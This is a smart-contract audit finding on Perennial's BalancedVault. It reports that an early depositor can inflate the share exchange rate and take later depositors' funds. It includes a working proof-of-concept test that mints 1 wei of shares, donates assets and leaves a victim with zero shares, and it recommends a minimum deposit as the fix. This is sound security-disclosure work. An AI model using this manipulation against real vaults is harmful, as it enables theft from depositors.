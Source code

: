 roguereddwarf

medium

# BalancedVault.sol: Early depositor can manipulate exchange rate and steal funds

## Summary
The first depositor can mint a very small number of shares, then donate assets to the Vault.
Thereby he manipulates the exchange rate and later depositors lose funds due to rounding down in the number of shares they receive.

The currently deployed Vaults already hold funds and will merely be upgraded to V2. However as Perennial expands there will surely be the need for more Vaults which enables this issue to occur.

## Vulnerability Detail
You can add the following test to `BalancedVaultMulti.test.ts`.
Make sure to have the `dsu` variable available in the test since by default this variable is not exposed to the tests.

The test is self-explanatory and contains the necessary comments:

```javascript
it('exchange rate manipulation', async () => {
      const smallDeposit = utils.parseEther('1')
      const smallestDeposit = utils.parseEther('0.000000000000000001')

      // make a deposit with the attacker. Deposit 1 Wei to mint 1 Wei of shares
      await vault.connect(user).deposit(smallestDeposit, user.address)
      await updateOracle();
      await vault.sync()

      console.log(await vault.totalSupply());

      // donating assets to Vault
      await dsu.connect(user).transfer(vault.address, utils.parseEther('1'))

      console.log(await vault.totalAssets());

      // make a deposit with the victim. Due to rounding the victim will end up with 0 shares
      await updateOracle();
      await vault.sync()
      await vault.connect(user2).deposit(smallDeposit, user2.address)
      await updateOracle();
      await vault.sync()

      console.log(await vault.totalAssets());
      console.log(await vault.totalSupply());
      // the amount of shares the victim receives is rounded down to 0
      console.log(await vault.balanceOf(user2.address));

      /*
      at this point there are 2000000000000000001 Wei of assets in the Vault and only 1 Wei of shares
      which is owned by the attacker.
      This means the attacker has stolen all funds from the victim.
      */
    })
```

## Impact
The attacker can steal funds from later depositors.

## Code Snippet
https://github.com/sherlock-audit/2023-05-perennial/blob/main/perennial-mono/packages/perennial-vaults/contracts/balanced/BalancedVault.sol#L775-L778

## Tool used
Manual Review

## Recommendation
This issue can be mitigated by requiring a minimum deposit of assets.
Thereby the attacker cannot manipulate the exchange rate to be so low as to enable this attack.